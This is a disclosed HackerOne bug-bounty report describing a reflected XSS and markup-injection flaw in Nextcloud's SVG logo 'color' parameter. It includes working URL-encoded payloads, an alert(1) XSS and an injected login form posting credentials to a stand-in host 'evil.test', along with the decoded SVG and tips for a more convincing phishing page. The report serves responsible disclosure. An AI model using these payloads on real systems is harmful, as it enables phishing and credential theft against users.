 # Reflected XSS / Markup Injection in `index.php/svg/core/logo/logo` parameter `color`

## Report Details
- **Report ID**: 605915
- **URL**: https://hackerone.com/reports/605915
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-11T12:15:58.642Z
- **Disclosed**: 2019-08-29T20:01:03.747Z

## Reporter
- **Username**: freddyb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
I just found a reflected Cross-Site Scripting (XSS) vulnerability in Nextcloud Server that affects current stable and dates back to at least 15.0.5.
The vulnerability seems mitigated by a Content-Security-Policy (CSP), but there might be a residual risk for phishing, due to the CSP's lack of a `form-action` directive.

Steps to repeat (for basic XSS):
0) Replace server.test in the following URLs with your own test instance of Nextcloud.
1) Open Developer Tools (alternatively, disable CSP in your browser :-))
2) go to https://server.test/nextcloud/index.php/svg/core/logo/logo?color=f00%22/%3E%3Cg%20onload=%22javascript:alert(1)%22%3E%3C/g%3E%3Ccircle%20alt=%22meh
3) Observe the CSP violation (alternatively, the alert popup)

Steps to repeat for phishing
0) Replace server.test in the following URLS with your own test instance of Nextcloud.
1) Visit https://server.test/nextcloud/index.php/svg/core/logo/logo?color=fff%22/%3E%3CforeignObject%20class=%22node%22%20x=%220%22%20y=%220%22%20width=%22600%22%20height=%22600%22%3E%3Cdiv%20xmlns=%22http://www.w3.org/1999/xhtml%22%3E%3Cp%3ELogin%3C/p%3E%3Cform%20action=%22//evil.test%22%3E%3Cinput%20placeholder=%22Username%22%20type=%22text%22/%3E%3Cbr/%3E%20%3Cinput%20placeholder=%22Password%22%20type=%22text%22%20/%3E%3Cbr/%3E%3Cinput%20type=%22submit%22%20value=%22Login%22%20/%3E%3C/form%3E%3C/div%3E%3C/foreignObject%3E%3Ccircle%20alt=%22
1a) For improved readability, here's the resulting SVG source code
```html
<svg width="256" height="128" version="1.1" viewBox="0 0 256 128" xmlns="http://www.w3.org/2000/svg"><g fill="none" stroke-width="22"><circle cx="40" cy="64" r="26" stroke="#fff"/><foreignObject class="node" x="0" y="0" width="600" height="600"><div xmlns="http://www.w3.org/1999/xhtml"><p>Login</p><form action="//evil.test"><input placeholder="Username" type="text"/><br/> <input placeholder="Password" type="text" /><br/><input type="submit" value="Login" /></form></div></foreignObject><circle alt="" fill="none"/><circle cx="216" cy="64" r="26" stroke="#fff"/><foreignObject class="node" x="0" y="0" width="600" height="600"><div xmlns="http://www.w3.org/1999/xhtml"><p>Login</p><form action="//evil.test"><input placeholder="Username" type="text"/><br/> <input placeholder="Password" type="text" /><br/><input type="submit" value="Login" /></form></div></foreignObject><circle alt="" fill="none"/><circle cx="128" cy="64" r="46" stroke="#fff"/><foreignObject class="node" x="0" y="0" width="600" height="600"><div xmlns="http://www.w3.org/1999/xhtml"><p>Login</p><form action="//evil.test"><input placeholder="Username" type="text"/><br/> <input placeholder="Password" type="text" /><br/><input type="submit" value="Login" /></form></div></foreignObject><circle alt="" fill="none"/></g></svg>

```
2) Observe how we injected a login form that points to https://evil.test. Note that further styling using CSS files of the currently applied theme could be used to make the attack more convincing. Additionally, an attacker might put the Nextcloud instance into an iframe, to hide the injection from the address bar (depending on X-Frame-Options header).

## Impact

- Phishing
- XSS on the nextcloud instance, if the CSP is bypassed (rather unlikely)

## Attachments
No attachments

